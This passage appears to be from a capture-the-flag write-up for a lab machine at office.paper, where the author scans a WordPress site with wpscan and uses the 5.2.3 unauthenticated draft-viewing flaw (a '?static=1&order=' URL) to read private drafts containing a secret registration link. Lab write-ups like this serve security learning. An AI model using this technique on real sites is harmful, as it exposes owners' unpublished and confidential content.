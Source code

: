 Now that we have an API key let's use it to boost our output produced by the wpscan tool:

* wpscan -h to understand my output
* wpscan --url[http://office.paper/](http://office.paper/) -e vp,vt --api-token 0dkeZIZvl3CrpKxGqbV81XYaeuqYxsgoj8BsShvEOWk

I found the following within the report:

* Wordpress 5.2.3 - Unauthenticated View Private/Draft Posts \*\* THIS SOUNDS A LOT LIKE SECRET CONTENT USAGE \*\*
* [https://wpscan.com/vulnerability/3413b879-785f-4c9f-aa8a-5a4a1d5e0ba2](https://wpscan.com/vulnerability/3413b879-785f-4c9f-aa8a-5a4a1d5e0ba2)
* PoC:[http://wordpress.local/?static=1\&order=asc](http://wordpress.local/?static=1\&order=asc)
* I placed this within the URL bar:[http://office.paper/?static=1\&order=](http://office.paper/?static=1\&order=)
* This vulnerability allows us to exploit Michael's usage of secret content in his drafts.

```
		test

		Micheal please remove the secret from drafts for gods sake!

		Hello employees of Blunder Tiffin,

		Due to the orders from higher officials, every employee who were added to this blog is removed and they are migrated to our new chat system.

		So, I kindly request you all to take your discussions from the public blog to a more private chat system.

		-Nick

		# Warning for Michael

		Michael, you have to stop putting secrets in the drafts. It is a huge security issue and you have to stop doing it. -Nick

		Threat Level Midnight

		A MOTION PICTURE SCREENPLAY,
		WRITTEN AND DIRECTED BY
		MICHAEL SCOTT

		[INT:DAY]

		Inside the FBI, Agent Michael Scarn sits with his feet up on his desk. His robotic butler Dwigt….

		# Secret Registration URL of new Employee chat system

		<http://chat.office.paper/register/8qozr226AhkCHZdyY>

		# I am keeping this draft unpublished, as unpublished drafts cannot be accessed by outsiders. I am not that ignorant, Nick.

		# Also, stop looking at my drafts. Jeez!
```
